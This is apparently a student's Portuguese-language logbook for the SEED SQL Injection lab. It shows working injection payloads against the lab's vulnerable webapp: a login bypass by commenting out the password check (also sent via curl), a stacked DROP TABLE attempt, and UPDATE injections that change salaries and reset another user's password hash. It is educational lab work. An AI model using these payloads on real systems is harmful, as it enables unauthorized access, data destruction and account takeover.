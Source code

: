 # SQL Injection Attack Lab
## Setup 

Foi-nos disponibilizado uma *webapp* com uma base de dados **MySQL**. O objetivo deste laboratório é explorar vulnerabilidades de **SQL Injection**.
Para começar temos que modificar o nosso ficheiro /etc/hosts para que o endereço IP do container contenha um IP e url que nós queremos. Para isso editamos o ficheiro com o seguinte comando:
```bash
$ sudo nano /etc/hosts
```
E adicionamos a seguinte linha ao ficheiro:
```bash
10.9.0.5        www.seed-server.com
```

Assim o nosso ficheiro sabe em que endereço se encontra o servidor.

Depois de darmos build ao container, podemos correr o seguinte comando para iniciar o servidor:
```bash
$ dockup
```
Agora o nosso servidor está a correr e usando 'dockps' encontramos o id do container. Para entrar na shell do container usamos o comando 'docksh' seguido do id do container:

<img src="images/logbook8/docksh.png"><br>

Na *webapp* existem dois roles:
- Admin: tem acesso a todas as contas
- Employee: tem acesso apenas à sua conta

## MySql
Para vermos o que está da base de dados, usamos os seguintes comandos, enquanto estamos na shell do container:
```bash
 $ mysql -u root -pdees
```

<img src="images/logbook8/mysql.png"><br>

## Ataques usando SELECT
### Primeiro ataque: Login como admin sem password
Para este ataque, temos que fazer login como admin sem password. Para isso, usamos o seguinte input:

<img src="images/logbook8/adminpass.png"><br>

Este input faz com que o servidor execute o seguinte comando:
```sql
    SELECT id, name, eid, salary, birth, ssn, address, email, nickname, Password
    FROM credential
    WHERE name='admin' # and Password='$hashed_pwd'
```
A parte da query que pediria a password está comentada, logo não é executada. Assim, o servidor devolve-nos a informação da conta do admin.

<img src="images/logbook8/adminpass2.png"><br>

### Segundo ataque: login como admin pelo terminal

Vamos realizar um ataque através de um pedido HTTP GET. Um exemplo de um pedido HTTP GET é o seguinte:
```bash
curl "www.seed-server.com/unsafe_home.php?username=alice&Password=12345"
```
Para este ataque vamos usar o mesmo input que usamos no ataque anterior, usando %27 em vez de plicas e %23 em vez de '#'. Assim, o nosso pedido HTTP GET é o seguinte:
```bash
curl "www.seed-server.com/unsafe_home.php?username=admin%27%23&Password="
```
Obtivemos o html com a informação da conta do admin:

<img src="images/logbook8/adminpass3.png"><br>

### Terceiro ataque : Juntar um novo SQL statement
Podemos juntar um novo SQL statement ao fim do input usando ";". Com isso, podemos causar efeitos indesejados no servidor. Por exemplo, podemos apagar a tabela credential com o seguinte input:
```sql
admin'; DROP TABLE credential; #
```
Contudo, recebemos uma mensagem de erro, uma vez que, o servidor não permite a execução de mais do que uma query de cada vez:

<img src="images/logbook8/adminpass4.png"><br>

## Ataques usando UPDATE
### Primeiro ataque: alterar o nosso salário
Se dermos login como um empregado, podemos aceder a uma pagina que nos permite alterar os nossos dados pessoais. Uma vez que o input nestes campos não é sanitizado, podemos alterar o nosso próprio salário com o seguinte input:
```sql
912345678', Salary='9999999
```
Com este input, o servidor executa o seguinte comando:
```sql 
UPDATE credential SET
nickname = '$input_nickname',
email = '$input_email',
address = '$input_address',
Password = '$hashed_pwd',
Phone_number = '912345678', Salary='9999999'
WHERE id = $id
```
Desta maneira, o salário foi alterado para o esperado:

<img src="images/logbook8/update.png"><br>

### Segundo ataque: alterar o salário de outro empregado
Para alterarmos o salário de outro empregado, usamos a mesma técnica que no ultimo ataque, mas o WHERE vai ser colocado manualmente por nós e vamos comentar o WHERE original do statement. Assim, o nosso input é o seguinte:
```sql
912345678', Salary='1' WHERE name='Boby' #
```
O servidor executa o seguinte comando:
```sql
UPDATE credential SET
nickname = '$input_nickname',
email = '$input_email',
address = '$input_address',
Password = '$hashed_pwd',
Phone_number = '912345678', Salary='1' WHERE name='Boby' # WHERE id = $id
```
Como podemos ver, modificamos o salário do Boby para 1:

<img src="images/logbook8/update2.png"><br>

### Terceiro ataque: modificar a password de outro empregado
A técnica para alterar a password vai ser a mesma que a do ataque anterior, só que a password que vamos colocar terá que ser já convertida para SHA1, vamos mudar a password para 'password'. O nosso input é o seguinte:
```sql
912345678', password='5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8' WHERE name='Boby' #
```
O servidor executa o seguinte comando:
```sql
UPDATE credential SET
nickname = '$input_nickname',
email = '$input_email',
address = '$input_address',
Password = '$hashed_pwd',
Phone_number = '912345678', Password='5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8' WHERE name='Boby' # WHERE id = $id
```
Como podemos ver, a password do Boby foi alterada para 'password' e podemos entrar na conta dele com essa password:

<img src="images/logbook8/update3.png"><br>